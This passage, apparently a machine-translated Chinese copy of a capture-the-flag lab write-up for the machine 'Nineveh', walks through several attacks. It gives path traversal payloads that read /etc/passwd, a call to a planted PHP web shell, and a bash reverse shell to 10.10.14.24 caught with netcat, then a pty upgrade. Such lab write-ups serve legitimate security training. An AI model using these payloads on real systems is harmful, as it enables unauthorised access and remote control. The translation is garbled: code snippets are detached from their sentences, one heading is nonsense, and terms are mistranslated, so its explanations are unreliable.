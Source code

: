 未选择“注释”。

`../../../../../../../../../../etc/passwd`

未选择“注释”。

`ninevehNotes`

警告：包含（文件/九veh注释）：无法打开流：在第31行.php/var/www/html/部门/管理中没有这样的文件或目录

`ninevehNote`

No Note is selected.

`files/ninevehNotes/../../../../../../../../../etc/passwd`

文件名太长。

`files/ninevehNotes/../../../../../../../etc/passwd`

内容`/etc/passwd`

`/ninevehNotes/../etc/passwd`

内容`/etc/passwd`

它花了一分钟才意识到，但它似乎正在检查该短语是否在参数中，或者它只是显示“未选择任何注释”。但是有一些方法可以解决这个问题，要么只是删除扩展名并转到目录，要么从 开始，然后进入不存在的文件夹，然后立即退出。该系统足够好，可以取消这两个，同时允许PHP通过字符串检查。`ninevehNotes``/``ninevehNotes``../`

### 断续器

现在，我可以访问我之前留下的网页外壳`http://10.10.10.43/department/manage.php?notes=/ninevehNotes/../var/tmp/0xdf.php&cmd=id`

 ![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2F0xdf.gitlab.io%2Fimg%2Fimage-20200411065028130.png) 

### 壳

要获得 shell，我只需将 更改为 （对 进行 url 编码非常重要，否则它们将被解释为启动新参数）。我在 ：`cmd``bash -c 'bash -i >%26 /dev/tcp/10.10.14.24/443 0>%261'``&``nc`

    root@kali# nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.43.
    Ncat: Connection from 10.10.10.43:40460.
    bash: cannot set terminal process group (1387): Inappropriate ioctl for device
    bash: no job control in this shell
    www-data@nineveh:/var/www/html/department$ 
    

蟒蛇2不在尼尼微上，但蟒蛇3是：

    www-data@nineveh:/var/www/html/department$ python -c 'import pty;pty.spawn("bash")'
    The program 'python' can be found in the following packages:
     * python-minimal
     * python3
    Ask your administrator to install one of them
    www-data@nineveh:/var/www/html/department$ python3 -c 'import pty;pty.spawn("bash")'
    